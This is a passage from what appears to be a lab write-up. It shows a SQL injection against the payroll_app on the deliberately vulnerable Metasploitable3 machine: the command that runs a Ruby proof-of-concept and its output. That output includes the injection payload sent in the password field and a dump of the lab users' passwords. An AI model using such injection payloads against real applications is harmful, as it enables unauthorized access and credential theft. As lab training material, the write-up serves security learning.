 Anyway, the resultant output of the attack lists all the passwords for the users in the database. However, it does not list the username next to the password, so some guessing and/or correlation needs to be performed. To run the script, use the following command:

{% highlight bash %}
leia_organa@metasploitable3-ub1404:/home/kylo_ren/poc/payroll_app$ ruby poc.rb 
{% endhighlight %}

The output of the script is listed below, with some formatting applied to the HTML portion to enhance readability:

{% highlight html %}
Making POST request to http://127.0.0.1/payroll_app.php with the following parameters:
'user' = luke_skywalker
'password' = password'; select password from users where username='' OR ''='
Response body is 

<center>
<h2>Welcome, luke_skywalker</h2>
<br>
<table style='border-radius: 25px; border: 2px solid black;' cellspacing=30>
<tr>
   <th>Username</th>
   <th>First Name</th>
   <th>Last Name</th>
   <th>Salary</th>
</tr>
<center>
   <h2>Welcome, luke_skywalker</h2>
   <br>
   <table style='border-radius: 25px; border: 2px solid black;' cellspacing=30>
      <tr>
         <th>Username</th>
         <th>First Name</th>
         <th>Last Name</th>
         <th>Salary</th>
      </tr>
      <tr><td>help_me_obiwan</td></tr>
      <tr><td>like_my_father_beforeme</td></tr>
      <tr><td>nerf_herder</td></tr>
      <tr><td>b00p_b33p</td></tr>
      <tr><td>Pr0t0c07</td></tr>
      <tr><td>thats_no_m00n</td></tr>
      <tr><td>Dark_syD3</td></tr>
      <tr><td>but_master:(</td></tr>
      <tr><td>mesah_p@ssw0rd</td></tr>
      <tr><td>@dm1n1str8r</td></tr>
      <tr><td>mandalorian1</td></tr>
      <tr><td>my_kinda_skum</td></tr>
      <tr><td>hanSh0tF1rst</td></tr>
      <tr><td>rwaaaaawr8</td></tr>
      <tr><td>Daddy_Issues2</td></tr>
   </table>
</center>
Done
{% endhighlight %}
